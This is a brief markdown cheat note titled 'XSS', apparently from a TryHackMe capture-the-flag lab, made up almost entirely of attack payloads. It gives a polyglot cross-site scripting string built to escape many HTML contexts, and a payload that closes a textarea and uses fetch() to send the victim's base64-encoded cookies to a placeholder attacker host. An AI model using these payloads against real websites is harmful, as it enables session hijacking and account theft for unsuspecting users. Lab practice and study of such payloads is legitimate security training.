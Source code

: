 # XSS


### Perfecting your workload



jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e

</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
